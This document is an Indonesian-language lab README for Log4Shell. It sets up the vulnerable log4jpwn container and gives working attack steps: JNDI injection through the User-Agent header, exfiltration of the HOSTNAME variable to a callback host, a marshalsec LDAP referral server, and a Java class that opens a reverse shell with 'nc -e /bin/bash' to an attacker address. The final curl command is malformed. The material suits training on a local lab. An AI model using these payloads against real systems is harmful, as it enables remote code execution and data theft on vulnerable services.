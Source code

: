 # Lab4Exploit

## Requirements:
- Linux disarankan Kali/Ubuntu
- Docker
```sh
# install docker
sudo apt install docker.io
sudo systemctl enable docker --now

# masukkan user ke dalam docker gruup
sudo usermod -aG docker $USER

# logout akun kemudian login kembali
```

- Java, Java Compiler dan Java Web Start versi 8 (untuk eksploitasi). Melihat versi Java:
```sh
sudo update-alternatives --config java
sudo update-alternatives --config javac
sudo update-alternatives --config javaws
```

- Installasi Java
```sh
sudo apt install default-jdk
```

- Installasi Maven
```sh
sudo apt install maven
```

- Marshalsec
```sh
git clone https://github.com/mbechler/marshalsec

cd marshalsec

mvn clean package -DskipTests

```

## Persiapan
Setup Vulnerable Server
```sh
# ambil dan build dockerfile
git clone https://github.com/leonjza/log4jpwn.git
docker built -t log4jpwn

# jalankan dockerfile yang sudah dib-uild
docker run --rm -p8080:8080 log4jpwn
```


## Reconnaissance
Buka URL http://localhost:8080 pada browser.

> Website ini melakukan logging terhadap user-agent, path, dan parameter pwn.
> Untuk PoC pada proses logging user-agent, kamu dapat menggunakan curl

Buka URL dengan menggunakan curl
```sh
curl -v http://localhost:8080

curl -v -H 'User-Agent: Internet Explorer' http://localhost:8080
```
> Lihat interaksi yang kamu lakukan dengan Log4j pada server

**PoC 1**
Buka tab baru dan buka necat listener
```sh
nc -lnvp 1234
```

Alamat listener dapat dilihat pada `ifconfig` dan mengacu pada interface Docker0.
```sh
curl -v -H 'User-Agent: ${jndi:ldap://ALAMAT_LISTENER:1234}' http://localhost:8080
```
**PoC2**
Buka https://log4shell.huntress.com
```sh
curl -v -H 'User-Agent: ${jndi:ldap://log4shell.huntress.com:1389/ID}' http://localhost:8080
```

Data exfiltration
```sh
curl -v -H 'User-Agent: ${jndi:ldap://log4shell.huntress.com:1389/hostname=${env:HOSTNAME}/ID}' http://localhost:8080/
```

## Eksploitasi
Menggunakan Java unmarshaller security, membuat code execution.
```sh
cd marshalsec

# jalankan ldap exploit server
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://YOUR.ATTACKER.IP.ADDRESS:8000/#Exploit"
```

File Exploit.java
```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

Compile file tersebut
```sh
javac Exploit.java -source 8 -target 8
```

Buat HTTP server pada port 8000
```sh
python3 -m http.server
```

Nyalakan listener
```sh
nc -lnvp 9999
```

Eksploit
```sh
curl -H 'User-Agent: {jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:1389/Exploit\} http://localhost:8080
```






